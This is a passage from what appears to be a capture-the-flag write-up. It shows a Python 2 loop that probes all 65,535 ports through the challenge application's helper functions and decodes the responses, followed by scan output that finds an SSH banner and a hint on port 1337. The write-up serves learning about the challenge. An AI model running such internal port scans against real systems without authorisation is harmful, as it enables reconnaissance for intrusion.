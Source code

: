 ```python
for m in range(65535):
	try:
		print "Doing Port : %d"%m
		portResp =  readId(getPort(m)-1)
		if portResp != "":
			print "Port %d response ==> %s"%(m,portResp.decode('base64'))
	except:
		continue

```

I also deleted some stuff which I thought was unnecessary now. Running the script, I just waited for some magic to happen.

```sh
jazzy@lolbox /home/data/Hack_stuff/h1ctf2 $ python scan.py
Doing Port : 0
Doing Port : 1
Doing Port : 2
Doing Port : 3
Doing Port : 4
Doing Port : 5
Doing Port : 6
Doing Port : 7
Doing Port : 8
Doing Port : 9
Doing Port : 10
Doing Port : 11
Doing Port : 12
Doing Port : 13
Doing Port : 14
Doing Port : 15
Doing Port : 16
Doing Port : 17
Doing Port : 18
Doing Port : 19
Doing Port : 20
Doing Port : 21
Doing Port : 22
Port 22 response ==> SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2
Protocol mismatch.

Doing Port : 23
Doing Port : 24
...skipping...
Doing Port : 1336
Doing Port : 1337
Port 1337 response ==> Hmm, where would it be?

Doing Port : 1338
Doing Port : 1339
Doing Port : 1340
Doing Port : 1341
```
